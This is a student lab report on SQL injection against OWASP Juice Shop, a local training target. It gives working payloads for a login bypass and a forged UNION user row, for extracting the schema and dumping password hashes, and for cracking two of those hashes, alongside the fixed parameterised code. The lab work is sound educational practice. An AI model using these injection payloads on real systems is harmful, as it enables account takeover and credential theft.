



# SQL Injection Lab Report — OWASP Juice Shop

**Course:** [505MI] Cybersecurity Lab A.Y. 2025/2026  
**Author:** Francesca Craievich  
**Target:** OWASP Juice Shop  
**Tools:** Burp Suite Community Edition, Firefox with proxy, Docker  

---

## 1. Introduction

SQL Injection (CWE-89) occurs when user-supplied input is incorporated into SQL queries without proper sanitization, allowing an attacker to alter the query's logic. SQLi attacks are classified by how the attacker receives feedback: **in-band** (query results are visible in the HTTP response), **blind** (only indirect feedback such as boolean outcomes, error messages, or time delays), and **out-of-band** (data exfiltration via a separate channel like DNS). This report documents the exploitation of four SQLi challenges on OWASP Juice Shop: **Login Bender** and **Ephemeral Accountant** (authentication bypass), and **Database Schema** and **User Credentials** (data extraction). 

The Juice Shop instance  was run locally via Docker:

```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop
```

Firefox was configured to proxy all traffic through Burp Suite on port 8080.

---

## 2. Authentication Bypass

### 2.1 Login Bender 

**Challenge:** *Log in with Bender's user account.*

**Vulnerable endpoint:** `POST /rest/user/login`

#### Reconnaissance

Before attempting injection, information gathering was necessary. The About page (`/#/about`) displays customer feedback entries that include email addresses. Browsing the page revealed Bender's email: `bender@juice-sh.op`.


#### Assumptions

The login form sends `email` and `password` to a backend that likely constructs a query similar to:

```sql
SELECT * FROM Users WHERE email='$email' AND password='$password'
```

If the input is not sanitized, injecting a single quote can break the query syntax. 

#### Exploitation

1. Navigate to `http://localhost:3000/#/login`.
2. In the **Email** field, enter: `bender@juice-sh.op'--`
3. In the **Password** field, enter any value.
4. Click **Log in**.

The resulting SQL query becomes:

```sql
SELECT * FROM Users WHERE email='bender@juice-sh.op'--' AND password='anything'
```

Everything after `--` is treated as a SQL comment. The query now only checks the email, bypassing password verification entirely. This technique works for any user whose email is known, making it more dangerous than a simple tautology because it allows **targeted account takeover**.


#### Analysis with Burp Suite

Burp Suite's HTTP history shows the POST request to `/rest/user/login` with the payload in the JSON body:

```json
{
  "email": "bender@juice-sh.op'--",
  "password": "1"
}
```

The server responds with `200 OK` and a valid authentication token with `"umail":"bender@juice-sh.op"`, confirming that the password was never checked.


#### Vulnerable code and fix

The vulnerability was also analyzed through Juice Shop's "Find It / Fix It" coding challenge. The `login()` function constructs the query using string interpolation:

```javascript
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}'...`
);
```

The fix replaces interpolation with Sequelize's bind parameter mechanism, equivalent to a prepared statement,`$mail` and `$pass` are never interpreted as SQL code:

```javascript
models.sequelize.query(
  'SELECT * FROM Users WHERE email = $mail AND password = $pass AND deletedAt IS NULL',
  { bind: { mail: req.body.email, pass: security.hash(req.body.password) },
    model: models.User, plain: true }
)
```


---

### 2.2 Ephemeral Accountant 

**Challenge:** *Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user.*

**Vulnerable endpoint:** `POST /rest/user/login`

#### Assumptions

The login query is:

```sql
SELECT * FROM Users WHERE email='$email' AND password='$hash'
```

Normally this returns a row if the user exists. But `acc0unt4nt` is not registered so the `WHERE` clause will never match any row, regardless of what is injected. The comment-based bypass from the previous challenge is useless here. 
A different approach is needed: injecting a `UNION SELECT` to fabricate a user row directly in the query result, without it ever existing in the database.

From the Database Schema challenge (Section 3.1), the `Users` table has 13 columns: `id`, `username`, `email`, `password`, `role`, `deluxeToken`, `lastLoginIp`, `profileImage`, `totpSecret`, `isActive`, `createdAt`, `updatedAt`, `deletedAt`.



#### Exploitation 

The payload was built incrementally by analyzing each failure:

**Attempt 1** - All NULL values except email:
```
' UNION SELECT NULL,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```
**Result:** `401 Invalid email or password`. The application needs a numeric `id` to generate the authentication token.



**Attempt 2** - Added `id=15`:
```
' UNION SELECT 15,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```
**Result:** `401` with `"status":"totp_token_required"`. The `totpSecret` column defaults to `''` (empty string), not `NULL`. Setting it to `NULL` made the application interpret it as TOTP being configured.


**Attempt 3** - Set `totpSecret` to empty string:
```
' UNION SELECT 15,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,'',NULL,NULL,NULL,NULL--
```
**Result:** `200 OK` with a valid authentication token, but the challenge banner did not trigger. The challenge validator requires specific field values beyond just a successful login.


**Attempt 4** - Populated all critical fields:
```
' UNION SELECT 15,'acc0unt4nt@juice-sh.op','acc0unt4nt@juice-sh.op','12345','accounting',NULL,NULL,NULL,'',NULL,NULL,NULL,NULL--
```
**Result:** `200 OK` and the challenge was solved. The validator checks that `role='accounting'` and that the password and username fields are populated.




---


## 3. Data Extraction

### 3.1 Database Schema 

**Challenge:** *Exfiltrate the entire DB schema definition via SQL Injection.*

**Vulnerable endpoint:** `GET /rest/products/search?q=`

#### Reconnaissance

The product search endpoint constructs a query like:

```sql
SELECT * FROM Products WHERE ((name LIKE '%$q%' OR description LIKE '%$q%') AND deletedAt IS NULL) ORDER BY name
```

The vulnerability was confirmed by injecting a single quote (`'`), which returned a `SQLITE_ERROR` revealing both the vulnerability and the database type (SQLite).


#### Exploitation 

**Step 1 - Close the query syntax.** The query wraps its conditions in double parentheses: `((name LIKE '...' OR description LIKE '...') AND deletedAt IS NULL)`. After breaking out of the string with `'`, the injection is still inside two levels of `(`. The payload `test'))--` closes both parentheses and comments out the rest, producing valid SQL that returns an empty but successful response.


**Step 2 - Find the column count.** A `UNION SELECT` requires matching the number of columns. Using `NULL` for all columns caused a 500 application error (the JavaScript code crashes when trying to access properties on null values), so numeric placeholders were used instead. Testing with incrementing values: `test')) UNION SELECT 1,2,3,4,5,6,7,8,9--` succeeded, confirming **9 columns**.

**Step 3 - Identify the system catalog.** Since the database is SQLite, the system table is `sqlite_master`, which stores `CREATE TABLE` statements in a column named `sql`.

**Step 4 — Extract the schema:**

```
http://localhost:3000/rest/products/search?q=test')) UNION SELECT sql,'2','3','4','5','6','7','8','9' FROM sqlite_master--
```

The JSON response contained the `CREATE TABLE` statements for every table, including `Users`, `Products`, `BasketItems`, `Addresses`, and others.


#### Vulnerable code and fix

The `searchProducts()` function has the same vulnerability:

```javascript
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' ...`
);
```

The fix uses Sequelize's replacement mechanism, equivalent to a prepared statement. Even SQL syntax like `' UNION SELECT` is treated as a string, never as code:

```javascript
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE '%:criteria%' ...`,
  { replacements: { criteria } }
);
```


---

### 3.2 User Credentials

**Challenge:** *Retrieve a list of all user credentials via SQL Injection.*

**Vulnerable endpoint:** `GET /rest/products/search?q=`

#### Assumptions

From the schema extracted in the previous challenge, the `Users` table contains `id`, `email`, and `password` columns. A `UNION SELECT` targeting these columns can extract all credentials. The UNION requires two conditions: same number of columns (9, already known) and compatible data types. Since SQLite is permissive with types, `NULL` can be used for unused columns — it is compatible with any data type, making it a cleaner and more portable choice than placeholder strings.

#### Exploitation

```
http://localhost:3000/rest/products/search?q=test')) UNION SELECT id,email,password,NULL,NULL,NULL,NULL,NULL,NULL FROM Users--
```

The response returned a JSON array where each entry contains a user's `id`, `email` (in the `name` field), and `password` hash (in the `description` field). T
Sample results:

| Email | MD5 Hash |
|---|---|
| admin@juice-sh.op | `0192023a7bbd73250516f069df18b500` |
| jim@juice-sh.op | `e541ca7ecf72b8d1286474fc613e5e45` |
| bender@juice-sh.op | `0c36e517e3fa95aabf1bbffc6744a4ef` |


#### Hash cracking

The passwords are stored as unsalted MD5 hashes. Using CrackStation, two hashes were reversed instantly: `admin@juice-sh.op` → `admin123`, `jim@juice-sh.op` → `ncc-1701` . 


---

> **Disclosure:** An LLM (Claude) was used to assist with the organization and formatting of this report.
